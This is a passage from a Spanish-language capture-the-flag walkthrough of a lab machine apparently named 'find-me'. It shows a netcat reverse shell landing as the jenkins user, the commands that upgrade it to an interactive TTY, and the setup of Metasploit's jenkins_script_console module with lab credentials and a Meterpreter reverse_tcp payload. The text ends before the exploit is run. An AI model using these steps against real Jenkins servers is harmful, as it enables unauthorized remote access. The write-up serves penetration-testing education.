 Observa la **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.230] 54172
whoami
jenkins
/bin/bash -i
bash: no se puede establecer el grupo de proceso de terminal (407): Función ioctl no apropiada para el dispositivo
bash: no hay control de trabajos en este shell
jenkins@find-me:~$
```
Listo, estamos dentro.

Obtén una sesión interactiva siguiendo estos pasos:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2: Presiona CTRL + Z

# Paso 3:
stty raw -echo; fg

# Paso 4:
reset
xterm

# Paso 5:
export TERM=xterm
export SHELL=bash
stty rows 51 columns 189
```
Esto será útil para más adelante.

<br>

<h3 id="jenkinsRevShell3">Obteniendo Sesión de Meterpreter con Módulo jenkins_script_console de Metasploit Framework</h3>

Inicia **Metasploit Framework** y usa el módulo `exploit/multi/http/jenkins_script_console`:
```bash
msfconsole -q
[*] Starting persistent handler(s)...
msf6 > use exploit/multi/http/jenkins_script_console
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/jenkins_script_console) >
```

Configúralo:
```bash
msf6 exploit(multi/http/jenkins_script_console) > set PASSWORD panda
PASSWORD => panda
msf6 exploit(multi/http/jenkins_script_console) > set USERNAME geralt
USERNAME => geralt
msf6 exploit(multi/http/jenkins_script_console) > set RHOSTS 192.168.1.230
RHOSTS => 192.168.1.230
msf6 exploit(multi/http/jenkins_script_console) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/jenkins_script_console) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/jenkins_script_console) > set target 1
target => 1
msf6 exploit(multi/http/jenkins_script_console) > set TARGETURI /
TARGETURI => /
```

